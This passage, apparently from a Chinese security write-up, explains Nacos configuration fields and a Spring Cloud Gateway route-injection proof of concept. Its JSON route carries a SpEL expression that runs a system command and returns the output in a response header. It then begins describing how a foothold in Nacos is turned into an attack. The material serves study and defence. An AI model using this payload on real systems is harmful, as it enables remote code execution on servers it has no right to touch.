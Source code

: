 其中`spring.cloud.nacos.config`下

-   name 代表的是要在 nacos 中创建的配置文件的 DataID。
-   file-extension 则是 nacos 中所创建的配置文件的格式。
-   group 则代表 nacos 中配置文件对应的组。
-   而 server-addr 则是 nacos 的访问地址

其中发送的添加路由的数据包中的数据段如下：

```plain
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

先理解一下这段 POC 的含义：

-   id 字段代表的是路由的 ID 标识
    
-   filters 则是 Spring Cloud Gateway 中路由配置的过滤器：
    
    这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的 Header，其中名称为 Result，值为该漏洞利用的`SpEL`表达式，执行了命令`id`。
    
    也就是说当一个请求匹配到该路由时，返回包中应该会存在一个 Header 返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（... ...）`
    

但 POC 中并未定义路由的匹配规则，因为开启 actuator/gateway 的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了

**2、利用方式**

如果拿到了一个 Nacos 权限，如何进行有效的信息收集以及利用？

以上面搭建的环境为例，我们搭建了一个 Nacos，一个 Spring Cloud Gateway 网关，以及一个微服务 Service-provider，

进入到 nacos 管理页面，翻阅配置时候发现有 Spring Cloud Gateway 相关的配置，那么第一步可以先查看该配置项都有哪些服务器在监听？监听的服务器基本可以肯定就是运行了 Spring Cloud Gateway 的服务器，可以在配置文件的更多中点击**监听查询**：

[![](assets/1700442594-42d979044ef5e67c2a10b39432051a2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155514-ce96b76c-85e7-1.png)
